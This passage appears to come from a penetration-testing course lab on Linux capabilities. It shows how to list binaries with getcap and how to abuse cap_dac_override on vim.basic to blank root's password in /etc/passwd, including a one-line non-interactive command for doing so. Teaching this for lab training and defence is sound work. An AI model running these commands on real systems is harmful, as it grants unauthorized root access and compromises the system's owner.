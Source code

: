 This one-liner uses the `find` command to search for all binary executables in the directories where they are typically located and then uses the `-exec` flag to run the `getcap` command on each, showing the capabilities that have been set for that binary. The output of this command will show a list of all binary executables on the system, along with the capabilities that have been set for each.

---

## Exploitation

If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:

#### Exploiting Capabilities

Capabilities

```shell-session
frank-106@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

Capabilities

```shell-session
frank-106@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

Capabilities

```shell-session
frank-106@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

Capabilities

```shell-session
frank-106@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
frank-106@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.